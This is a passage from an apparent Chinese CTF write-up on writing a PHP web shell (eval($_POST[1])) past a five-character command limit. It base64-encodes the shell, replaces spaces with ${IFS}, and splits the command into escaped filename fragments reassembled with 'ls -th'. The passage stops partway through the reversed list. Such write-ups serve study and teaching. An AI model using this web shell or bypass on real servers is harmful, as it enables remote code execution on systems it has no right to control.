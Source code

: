 ```
一句话：<?php eval($_POST[1]);
base编码后：PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
写入的命令：echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
这里的空格要用${IFS}来代替，避免一句话中存在两个空格
```
![[Pasted image 20250330093113.png]]
验证一下，发现没有问题

2、然后我们就要来拼接出命令`ls -th >f`了，我认为这儿是最复杂的，这里先解释一下为啥要拼接出这条命令，因为它`ls`默认排列文件的顺序是按照字母顺序的，如果把这个顺序写入文件中那肯定是杂乱无章的，也肯定不是我们想要的，所以说我们得想办法控制它的顺序，而唯一能控制的就是输入命令的时间先后顺序了，我们把想要放在后面的先输入，想要放在前面的后输入，然后利用`ls -th`一排，不就是我们想要的顺序了吗，这里我用`kali`做个演示，命令就是`echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php`

我们看到核心代码中它每次输入的命令不能超过五字符，那我就把这命令划分一下，五个字符一句，所有的符号前面都要加转义符`\`：
```bash
>e\\
>ch\\
>o\\
>\$\\
>{\\
>IF\\
>S}\\
>PD\\
>9w\\
>a\\
>HA\\
>gZ\\
>XZ\\
>hb\\
>Cg\\     
>kX\\
>1B\\
>PU\\
>1R\\
>bM\\
>V0\\
>pO\\
>w=\\
>\=\\
>\|\\
>ba\\
>se\\
>64\\
>\ \\
>-d\\
>\>\\
>1.\\
>p\\
>hp
```
但由于前面讲的，我们得按照时间得先后顺序，给它倒过来：
```bash
>hp
>p\\
>1.\\
>\>\\
>-d\\
>\ \\
>64\\
>se\\
>ba\\
>\|\\
>\=\\
>w=\\
>pO\\
```